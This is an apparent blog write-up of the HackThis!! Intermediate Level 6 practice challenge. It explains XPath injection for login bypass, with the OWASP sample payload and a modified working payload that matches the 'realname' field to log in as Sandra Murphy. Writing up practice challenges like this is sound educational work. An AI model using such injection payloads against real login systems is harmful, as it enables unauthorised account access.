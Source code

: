 ```yaml
---
layout: post
title:  "HackThis!! :: Intermediate :: Level 6"
date:   2016-05-09
---
```


[HackThis!! Intermediate](https://www.hackthis.co.uk/levels/Intermediate)

## Intermediate Level 6

![intermediate06-01](/img/hackthis-intermediate/intermediate06-01.png)

No SQLi, check.  Hint?

![intermediate06-02](/img/hackthis-intermediate/intermediate06-02.png)

The Pastebin contains an XML schema...

```
<xs:schema xmlns:xs="http://www.w3.org/2001/XMLSchema">
  <xs:element name="users">
    <xs:complexType>
      <xs:sequence>
        <xs:element name="user">
          <xs:complexType>
            <xs:sequence>
              <xs:element type="xs:string" name="login"/>
              <xs:element type="xs:string" name="password"/>
              <xs:element type="xs:string" name="realname"/>
            </xs:sequence>
          </xs:complexType>
        </xs:element>
      </xs:sequence>
    </xs:complexType>
  </xs:element>
</xs:schema>
```

[XML injection ](https://www.owasp.org/index.php/Testing_for_XML_Injection_%28OWASP-DV-008%29) seems like a good place to start but it doesn't quite fit the context. The top many results if you Google "XML injection login bypass" reference XPATH injection including the [OWASP XPath Injection Testing Guide](https://www.owasp.org/index.php/Testing_for_XPath_Injection_%28OTG-INPVAL-010%29), that sounds better.

OWASP sums it up nicely:

"Querying XML is done with XPath, a type of simple descriptive statement that allows the XML query to locate a piece of information. Like SQL, you can specify certain attributes to find, and patterns to match. When using XML for a web site it is common to accept some form of input on the query string to identify the content to locate and display on the page. This input must be sanitized to verify that it doesn't mess up the XPath query and return the wrong data." ([source](https://www.owasp.org/index.php/XPATH_Injection))

The sample implementation and exploit on the [OWASP page](https://www.owasp.org/index.php/XPATH_Injection) works on this level with a minor modification.

Assuming the application is coded in a very straightforward way, it might look like this:

```
FindUserXPath = "//Employee[UserName/text()='" & Request("Username") & "' And 
        Password/text()='" & Request("Password") & "']"
```

OWASP suggests the following attack and shows how the malformed input is parsed to modify the XPath.

```
Username: blah' or 1=1 or 'a'='a
Password: blah

FindUserXPath becomes //Employee[UserName/text()='blah' or 1=1 or 
        'a'='a' And Password/text()='blah']

Logically this is equivalent to:
        //Employee[(UserName/text()='blah' or 1=1) or 
        ('a'='a' And Password/text()='blah')]
```

The reason the last part is 'logically equivalent' to the previous is operator precedence in XPath, described [here](http://www.w3.org/TR/xpath/#booleans). AND has a higher precedence than OR. So,

```
//Employee[UserName/text()='blah' or 1=1 or 'a'='a' And Password/text()='blah']
```

becomes

```
//Employee[UserName/text()='blah' or 1=1 or ('a'='a' And Password/text()='blah')]
```

because AND is first. Left with three items to OR, they are evaluated left to right, so:

```
//Employee[(UserName/text()='blah' or 1=1) or ('a'='a' And Password/text()='blah')]
```

I think it's really cool that we inject `1=1` and also `a=a` into the username field but they end up contributing to different clauses in the statement.

Unfortunately this does not work!  It should match and return every username regardless of password input. Presumably this application is built to require a match on only a single record, or specifically that it match Sandra Murphy's account.

We'll use the same idea but swap out the `1=1` for an attempt to match the `realname` field (from the XML schema) to Sandra.

```
Username: blah' or realname/text()='Sandra Murphy' or 'a'='a
Password: blah
```

Assuming the same XPath expression as in the OWASP example, this will look like this:

```
//Employee[UserName/text()='blah' or realname/text()='Sandra Murphy' or 'a'='a' And Password/text()='blah']
```

Which, following the same steps to add parenthesis according to AND/OR operator precedence, is logically the following:

```
//Employee[UserName/text()='blah' or realname/text()='Sandra Murphy' or ('a'='a' And Password/text()='blah')]
```

```
//Employee[(UserName/text()='blah' or realname/text()='Sandra Murphy') or ('a'='a' And Password/text()='blah')]
```

Looks good. Construct a POST request with this username and password and send it along...

![intermediate06-03](/img/hackthis-intermediate/intermediate06-03.png)

BOOM, success. Again, this works because the first clause passes on `realname` being Sandra Murphy, and the second clause passes on `a=a`.

![intermediate06-04](/img/hackthis-intermediate/intermediate06-04.png)

